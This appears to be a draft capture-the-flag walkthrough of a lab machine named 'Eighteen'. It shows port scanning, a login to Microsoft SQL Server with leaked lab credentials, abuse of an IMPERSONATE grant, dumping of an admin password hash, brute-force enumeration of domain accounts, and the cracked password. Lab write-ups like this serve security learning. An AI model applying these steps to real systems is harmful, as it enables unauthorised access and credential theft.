

+++
date = '2026-10-15T08:58:44-04:00'
draft = true
title = 'Eighteen'
+++
## Introduction

## Enumeration

Before taking on this machine, some information was given out as part of the introduction to the challenge. The credentials below are given for an account. These will likely give a foothold on some part of the machine and will simulate a credntial leakage as part of an early data breach or attack.

```bash
kevin:iNa2we6haRj2gaw!
```

Even with the credential leakage, it's important to figure out what service the credentials might be releted to. I'll use nmap to do some service discovery and version fingerprinting.

```bash
nmap -T4 -sC -sC -p- eighteen.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-10-15 09:07 -0400
Nmap scan report for eighteen.htb (10.129.86.135)
Host is up (0.013s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Welcome - eighteen.htb
1433/tcp open  ms-sql-s
|_ssl-date: 2026-10-15T20:09:03+00:00; +6h59m53s from scanner time.
| ms-sql-info: 
|   10.129.86.135:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-10-15T19:57:20
|_Not valid after:  2056-10-15T19:57:20
| ms-sql-ntlm-info: 
|   10.129.86.135:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
5985/tcp open  wsman

Host script results:
|_clock-skew: mean: 6h59m52s, deviation: 0s, median: 6h59m52s

Nmap done: 1 IP address (1 host up) scanned in 97.71 seconds
```

The scan reveals a webserver on port 80, a Microsoft SQL server on port 1433 and finally a windows server management tool on port 5985. Out of practise, I decided to check out the webserver to see what content is there. It seems to be a financial management solution for expenses tracking. I tried to use the exposed credentials to access Kevin's account via the webapp however those credentials did not work there.



Since the website failed to shed any light on the leaked credentials, I thought I'd try use them against the the microsoft SQL database. Using a tool from the impacket library, I could successfully connect as the user kevin and begin to explore the data held within it.

```bash
impacket-mssqlclient kevin:iNa2we6haRj2gaw\!@eighteen.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (kevin  guest@master)>
```

## Database Exploration

With an established entrypoint to the machine, it was important start gathering information that might give away some details as to how this database is used, who uses it and are there any other credentials that could be lifted from it. I began by discovering the users of the database which revealed a server admin 'sa' account, the account for kevin which was already compromised, and an appdev account. It's likely that this user has some connection to the web server that I had already seen.

```bash
QL (kevin  guest@master)> Select * from sys.server_principals where type_desc != 'SERVER_ROLE'
name     principal_id                                   sid   type   type_desc   is_disabled   create_date   modify_date   default_database_name   default_language_name   credential_id   owning_principal_id   is_fixed_role                              tenant_id   
------   ------------   -----------------------------------   ----   ---------   -----------   -----------   -----------   ---------------------   ---------------------   -------------   -------------------   -------------   ------------------------------------   
sa                  1                                 b'01'   b'S'   SQL_LOGIN             0   2003-04-08 09:10:35   2026-10-15 13:32:15   master                  us_english                       NULL                  NULL               0                                   NULL   
kevin             267   b'9c5c3096c3dfc8458e31cbfcaa0b6a65'   b'S'   SQL_LOGIN             0   2025-09-12 01:38:48   2026-10-15 13:30:26   master                  us_english                       NULL                  NULL               0   00000000-0000-0000-0000-000000000000   
appdev            268   b'2db95bab7f6f5547ae808360dcaddaba'   b'S'   SQL_LOGIN             0   2025-09-12 01:38:53   2025-09-12 01:38:53   master                  us_english                       NULL                  NULL               0   00000000-0000-0000-0000-000000000000  
```

Using a built in shortcut of the impacket SQL client, I could enumerate the users that kevin is permitted to impersonate. Interestingly, kevin has permissions to execute SQL as if they were the appdev account, meaning that more of the servers tables were likely to be accessible to appdev and therefore myself with kevin's credentials. 

```bash
SQL (kevin  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
b'LOGIN'     b''        IMPERSONATE       GRANT        kevin     appdev
```

```bash
SQL (kevin  guest@master)> exec_as_login appdev
SQL (appdev  appdev@master)> 
```

This turns out to be the case, and inside of the financial_planner database there are tables representative of a financial planning app, likely the same one that is advertised via the web app. Whats more interesting is there is a users table with one user, the admin. The admins hashed password is listed in the database which I will copy down and make use of in the next section.

```bash
SQL (appdev  appdev@financial_planner)> SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE'
TABLE_CATALOG       TABLE_SCHEMA   TABLE_NAME    TABLE_TYPE   
-----------------   ------------   -----------   ----------   
financial_planner   dbo            users         b'BASE TABLE'   
financial_planner   dbo            incomes       b'BASE TABLE'   
financial_planner   dbo            expenses      b'BASE TABLE'   
financial_planner   dbo            allocations   b'BASE TABLE'   
financial_planner   dbo            analytics     b'BASE TABLE'   
financial_planner   dbo            visits        b'BASE TABLE' 
```

```bash
SQL (appdev  appdev@financial_planner)> SELECT * FROM users;
  id   full_name   username   email                password_hash                                                                                            is_admin   created_at   
----   ---------   --------   ------------------   ------------------------------------------------------------------------------------------------------   --------   ----------   
1002   admin       admin      admin@eighteen.htb   pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133          1   2025-10-29 05:39:03 
```

```bash
netexec mssql eighteen.htb -u kevin -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute
MSSQL       10.129.86.193   1433   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb) (EncryptionReq:False)
MSSQL       10.129.86.193   1433   DC01             [+] DC01\kevin:iNa2we6haRj2gaw! 
MSSQL       10.129.86.193   1433   DC01             498: EIGHTEEN\Enterprise Read-only Domain Controllers
MSSQL       10.129.86.193   1433   DC01             500: EIGHTEEN\Administrator
MSSQL       10.129.86.193   1433   DC01             501: EIGHTEEN\Guest
MSSQL       10.129.86.193   1433   DC01             502: EIGHTEEN\krbtgt
MSSQL       10.129.86.193   1433   DC01             512: EIGHTEEN\Domain Admins
MSSQL       10.129.86.193   1433   DC01             513: EIGHTEEN\Domain Users
MSSQL       10.129.86.193   1433   DC01             514: EIGHTEEN\Domain Guests
MSSQL       10.129.86.193   1433   DC01             515: EIGHTEEN\Domain Computers
MSSQL       10.129.86.193   1433   DC01             516: EIGHTEEN\Domain Controllers
MSSQL       10.129.86.193   1433   DC01             517: EIGHTEEN\Cert Publishers
MSSQL       10.129.86.193   1433   DC01             518: EIGHTEEN\Schema Admins
MSSQL       10.129.86.193   1433   DC01             519: EIGHTEEN\Enterprise Admins
MSSQL       10.129.86.193   1433   DC01             520: EIGHTEEN\Group Policy Creator Owners
MSSQL       10.129.86.193   1433   DC01             521: EIGHTEEN\Read-only Domain Controllers
MSSQL       10.129.86.193   1433   DC01             522: EIGHTEEN\Cloneable Domain Controllers
MSSQL       10.129.86.193   1433   DC01             525: EIGHTEEN\Protected Users
MSSQL       10.129.86.193   1433   DC01             526: EIGHTEEN\Key Admins
MSSQL       10.129.86.193   1433   DC01             527: EIGHTEEN\Enterprise Key Admins
MSSQL       10.129.86.193   1433   DC01             528: EIGHTEEN\Forest Trust Accounts
MSSQL       10.129.86.193   1433   DC01             529: EIGHTEEN\External Trust Accounts
MSSQL       10.129.86.193   1433   DC01             553: EIGHTEEN\RAS and IAS Servers
MSSQL       10.129.86.193   1433   DC01             571: EIGHTEEN\Allowed RODC Password Replication Group
MSSQL       10.129.86.193   1433   DC01             572: EIGHTEEN\Denied RODC Password Replication Group
MSSQL       10.129.86.193   1433   DC01             1000: EIGHTEEN\DC01$
MSSQL       10.129.86.193   1433   DC01             1101: EIGHTEEN\DnsAdmins
MSSQL       10.129.86.193   1433   DC01             1102: EIGHTEEN\DnsUpdateProxy
MSSQL       10.129.86.193   1433   DC01             1601: EIGHTEEN\mssqlsvc
MSSQL       10.129.86.193   1433   DC01             1602: EIGHTEEN\SQLServer2005SQLBrowserUser$DC01
MSSQL       10.129.86.193   1433   DC01             1603: EIGHTEEN\HR
MSSQL       10.129.86.193   1433   DC01             1604: EIGHTEEN\IT
MSSQL       10.129.86.193   1433   DC01             1605: EIGHTEEN\Finance
MSSQL       10.129.86.193   1433   DC01             1606: EIGHTEEN\jamie.dunn
MSSQL       10.129.86.193   1433   DC01             1607: EIGHTEEN\jane.smith
MSSQL       10.129.86.193   1433   DC01             1608: EIGHTEEN\alice.jones
MSSQL       10.129.86.193   1433   DC01             1609: EIGHTEEN\adam.scott
MSSQL       10.129.86.193   1433   DC01             1610: EIGHTEEN\bob.brown
MSSQL       10.129.86.193   1433   DC01             1611: EIGHTEEN\carol.white
MSSQL       10.129.86.193   1433   DC01             1612: EIGHTEEN\dave.green
```

```bash
SQL (kevin  guest@master)> exec_as_login appdev
SQL (appdev  appdev@master)> 
```


```bash
sha256:600000:QU10enRlUUlHN3lBYlpJYQ==:BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=:iloveyou1
```

